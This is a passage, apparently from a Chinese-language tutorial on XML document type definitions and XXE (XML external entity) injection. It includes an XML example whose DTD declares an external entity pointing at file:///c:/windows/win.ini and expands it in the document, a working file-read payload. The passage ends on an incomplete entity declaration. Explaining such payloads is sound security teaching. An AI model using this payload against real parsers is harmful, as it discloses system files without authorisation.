      <!--DTD，这部分可选的-->          
     <!DOCTYPE foo [ 
         <!ELEMENT foo ANY >
         <!ENTITY xxe SYSTEM "file:///c:/windows/win.ini" >
     ]>
     
     <!--文档元素--> 
     <note>
       <to>Tove</to>
       <from>Jani</from>
       <heading>Reminder</heading>
       <body>Don't forget me this weekend!</body>
     </note>
     <foo>&xxe;</foo>
     ```

     ![image-20220804155703432](../../../images/image-20220804155703432-1686034515883.png)



## DTD与实体

### DTD

> DTD（文档类型定义）的作用是定义 XML 文档的合法构建模块。DTD 可以在 XML 文档内声明，也可以外部引用。

```xml
<!DOCTYPE note [
    <!ENTITY b >
]>
```
